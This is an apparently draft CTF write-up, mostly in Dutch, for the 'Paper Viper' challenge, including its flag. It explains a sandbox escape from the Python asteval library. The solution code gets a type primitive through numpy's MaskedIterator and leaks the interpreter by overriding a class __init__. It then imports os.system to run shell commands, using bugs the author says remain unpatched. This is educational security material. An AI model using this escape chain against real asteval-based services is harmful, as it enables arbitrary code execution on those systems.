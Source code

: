 # Paper Viper

**Author**: Ward  
**Flag**: `kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`  

## Setup
Insert screenshot van de challenge description

Handout: `chal.py`, `Dockerfile`, `compose.yml`, `getflag.c`

`asteval==1.0.6`, de nieuwste release.

## The challenge:

TODO: Context from UofTCTF

```python
import asteval

# With this many functions from numpy removed there definitely will not be a way for users to get to `type()`, which is a security risk
asteval.astutils.NUMPY_TABLE = {k: asteval.astutils.NUMPY_TABLE[k] for k in ["genfromtxt"]}

def get_input():
    print("Give input, end with a line of $END$")
    inp = ""
    while True:
        temp = input()
        if temp == "$END$":
            break
        inp += temp +"\n"
    return inp

def nope(text):
    if not text.isascii():
        quit("Sorry, only ascii!")
    if any([text.find(x) >= 0 for x in ["yt", "ty", "rm", "uf", "**"]]):
        quit('Sorry, those bigrams just give me bad vibes!')

def main():
    inp = get_input()
    nope(inp)
    asteval.Interpreter().eval(inp, raise_errors=True)

if __name__ == "__main__":
    main()
```

Heel janky library, heleboel bugs en 0days aanwezig. numpy geeft huge attack surface, dus het was best een uitdaging om mensen de juiste richting in te duwen van de intended en de unintendeds te filteren zonder dat het super arbitrair wordt.
Ben ook niet helemaal tevreden door deze filters sinds ze nogal arbitrair zijn, het gaat om de sandbox escape en niet om het bypassen van mijn filters, zoals het geval zou zijn bij e.g. de leuke jailctf pyjails.
TODO uitleggen hoe de challenge tot stand is gekomen / waar de specifieke filters voor zijn:
byte, bytearray, format, buffer, dict unpacking for kwargs which would bypass names that would be filtered otherwise (since strings can be constructed to bypass the filter).

## The solution:
Tijdens de CTF is hij twee keer opgelost, door bekenden in de pyjail-scene, Lyndon van Maple Mallard Magistrates en oh_word, van Infobahn.

Ook shout out naar PianoMan / SteakEnthusiast

Lyndon gebruikte een f-string-gebaseerde methode (met de breder bekende methode van AttributeError.obj om een waarde uit een format string te redden) die erg leek op de oplossing van een van de chals voor UofTCTF.
Ik ken de techniek, na UofTCTF is er een patch geweest naar asteval die bedoeld was om het te fixen. Die blijkt niet te werken.
In mijn locale testing-setup werkte het niet (waarschijnlijk omdat ik op een oudere versie van python zat dan op de remote), waardoor ik het niet aan de filters heb toegevoegd.
oh_word heeft de intended route voor `type` gevonden, en daarna memory exploitation gedaan.

### Getting a type primitive:

Uitleg: in de chal wordt hiernaar gehint. Hoe vind je dit?
Wat intelligente searches op type in `numpy`, e.g. als je zoekt op `type(self.` zijn er 4 resultaten, waarvan er maar 2 geen tests zijn.  Meer algemene searches zullen het ook vinden, maar dan heb je wat meer werk in het wegstrepen van routes die niet werken met user-controlled argumenten.
In MaskedArray.count ziet het er zo uit:
```python
        if isinstance(self.data, np.matrix):
            if m is nomask:
                m = np.zeros(self.shape, dtype=np.bool)
            m = m.view(type(self.data))
```
Dit is niet vulnerable: zelfs als de isinstance-check geen probleem zou zijn, dan nog wordt het resultaat van deze call dusdanig gebruikt dat het niet zomaar mogelijk is om bij het resultaat te kunnen.

De andere optie:
```python
def __getitem__(self, indx):
        result = self.dataiter.__getitem__(indx).view(type(self.ma))
        if self.maskiter is not None:
            _mask = self.maskiter.__getitem__(indx)
            if isinstance(_mask, ndarray):
                # set shape to match that of data; this is needed for matrices
                _mask.shape = result.shape
                result._mask = _mask
            elif isinstance(_mask, np.void):
                return mvoid(result, mask=_mask, hardmask=self.ma._hardmask)
            elif _mask:  # Just a scalar, masked
                return masked
        return result
```
De getitem van MaskedIterator. self.ma is user-controlled, self.dataiter is user-controlled. Als we dus ervoor kunnen zorgen dat de .view-methode op dat object uit de dataiter zijn argument returnt, of het in een globale lijst opslaat oid, dan kunnen we direct bij het resultaat van type en hebben we een werkende type primitive.

```python
# Get `type` primitive
def id(x):
    return x

genfromtxt.view = id
ma = genfromtxt(["1"], usemask=True)
mf = ma.flat
mf.maskiter = None
mf.ma = "foo"
mf.dataiter = [genfromtxt]
str = mf[0]

mf.ma = str
t = mf[0]
```

Wat geeft type ons? In de sandbox heb je een fake versie van type. Type stelt ons in staat om class objects te verkrijgen van alle objecten waar we toegang toe hebben in de sandbox, inclusief `asteval`-eigen klassen.

### Overriding class level dunders to leak the interpreter object:

Point out de bug in setattr van dunders.
Point out de bug van setattr in Procedure als instance-level-functie ipv class-level.

```python
# Get Procedure class object
def f():
    pass
p = t(f)

# Obtain the Interpreter instance
def stealer(name, interp, doc=None, lineno=None,
                 body=None, text=None, args=None, kwargs=None,
                 vararg=None, varkws=None):
    print(interp)
    kwargs[0][1].append(interp)
p.__init__ = stealer
rescuelist = []
def g(rescue=rescuelist):
    pass
i = rescuelist[0]
print(i)
```

Dit geeft ons een interpreter-object.

### Profit:
Op dit punt zijn er een heleboel opties.
De makkelijkste is om gewoon gebruik te maken van de importfunctionaliteit.
Een leuke alternatieve optie is om de attribuutnaam-check in on_name te omzeilen door een fake-subtype van string te maken en daarmee de waarde van een ast.Name node te overschrijven, maar die laat is als exercise to the reader.

```python
# Import and escape the jail
i.import_module("os",["sys"],["system"])
sys("echo hi mom")
sys("/getflag")
print()
```

`kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`

